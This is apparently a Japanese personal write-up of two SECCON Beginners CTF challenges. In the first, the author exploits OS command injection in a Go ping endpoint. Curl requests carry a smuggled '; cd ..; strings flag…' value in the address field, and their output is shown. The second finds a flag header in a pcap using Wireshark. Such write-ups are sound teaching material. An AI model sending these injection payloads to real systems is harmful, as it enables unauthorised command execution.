


# Write up
## 自分が解けた問題をメモがてら綴ってみる
 
チームの順位は、241位でした.チームメンバーで協力して問題を解けたのでよかったと思っています！（感謝🙏）
 
SECCON Beginners CTFは今回で２回目の参加でしたが、去年と比べ問題を理解して取り組むのに時間がかかってしまい、難化している印象がありました.（個人的に）来年参加する機会があれば、今年より多く問題を解けるように頑張りたいと思います！

1. ### Util (54 pt)
- 問題文
    > ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?  
- 概要
     
    URLにアクセスするとテキストフォームがあり、フォームにIPアドレスを入力するとpingを送信した結果が表示される.

- 方針
     
        index.htmlを見てみると、下にあるJavaScriptでフォームの入力値の検証を行なっていることがわかる.
    ~~~JavaScript
    //index.html
    ~~略~~

    if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address))

    ~~略~~
    ~~~
    また、main.goのサーバー側の処理をみると送信されたIPアドレスをparamから取り出したあと、コマンドと共に結合されてcommandに代入されていることがわかる。
    ~~~go
    //main.go
    ~~略~~

	r.POST("/util/ping", func(c *gin.Context) {
		var param IP
		if err := c.Bind(&param); err != nil {
			c.JSON(400, gin.H{"message": "Invalid parameter"})
			return
		}

		commnd := "ping -c 1 -W 1 " + param.Address + " 1>&2"
		result, _ := exec.Command("sh", "-c", commnd).CombinedOutput()

		c.JSON(200, gin.H{
			"result": string(result),
		})
	})

    ~~略~~
    ~~~
    以上より、index.htmlのバリデーションを回避しつつ任意のコードを実行すればflagが取り出せそうと考える。
- 解
     
    パラメーターの名前には、IPアドレスを入力するテキストフィールドのname属性である**address**を指定する.
     
    送信する値にはIPアドレスの後を「;」で区切ることで任意のコードを実行できるので、**ls**や**cd**でflagを探すとflagが得られます.
        
    ~~~
    '{"address" : "127.0.0.1 ; 任意のコード"}'
    ~~~

    ~~~bash
    # 最終的なコード
    
    curl -X POST -H "Content-Type: application/json" -d '{"address":"127.0.0.1 ; cd ..;strings flag_A74FIBkN9sELAjOc.txt"}' [送信先URL]
    ~~~

    ※lsの結果は出力された文字列の最後の方に表示される（以下例）
    ~~~bash
    # 入力
    curl -X POST -H "Content-Type: application/json" -d '{"address":"127.0.0.1 ; cd ..　;　ls"}' [送信先URL]

    #　表示
    #0.144ms以降がlsの結果(\nは改行の意味)
    {"result":"PING 127.0.0.1 (127.0.0.1): 56 data bytes\n64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.144 ms\n\n--- 127.0.0.1 ping statistics ---\n1 packets transmitted, 1 packetsreceived, 0% packet loss\nround-trip min/avg/max = 0.144/0.144/0.144ms\napp\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
    ~~~
___
2. ### H2 (69 pt)
- 概要
     
    pcapファイルとヘッダーを操作しているらしきmain.goファイルが配られる.
- 方針
     
    main.goファイルをみるとヘッダーになにやら怪しい**secret**を追加している.ヘッダーの**x-flag**について探せばflagが取れそう.
    ~~~go
    const SECRET_PATH = "<secret>"
    
    //略
    
    w.Header().Set("x-flag", "<secret>")
    ~~~
- 解
     
    pcapファイルをwiresharkで解析する.検索対象を**Packet details**、**String**に設定し検索ワードを**x-flag**として検索.
     
    下のタブを**Decompressed Header**にするとflagが現れる。
    > Edit > Find Packetで検索タブを表示.

    